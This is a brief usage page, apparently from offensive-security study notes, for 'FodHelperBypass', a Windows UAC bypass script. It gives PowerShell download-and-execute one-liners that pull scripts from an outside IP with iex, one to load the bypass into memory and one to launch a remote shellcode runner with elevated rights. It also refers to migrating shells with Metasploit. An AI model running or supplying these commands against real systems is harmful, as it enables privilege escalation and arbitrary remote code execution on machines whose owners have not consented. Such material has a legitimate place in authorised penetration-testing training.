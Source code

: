 # Name
FodHelperBypass (Bypass UAC)

## Usage
```
ONLY WORKS FOR x64 SHELL !! (migrate using metasploit if needed)

# Load FodHelper into memory
iex (new-object net.webclient).downloadstring('http://192.168.45.218/FodhelperBypass.ps1')

# Using ps_shellcode runner
FodhelperBypass -program "powershell -c iex (new-object net.webclient).downloadstring('http://192.168.45.218/runall.ps1')"
```

## Source
https://raw.githubusercontent.com/winscripting/UAC-bypass/refs/heads/master/FodhelperBypass.ps1
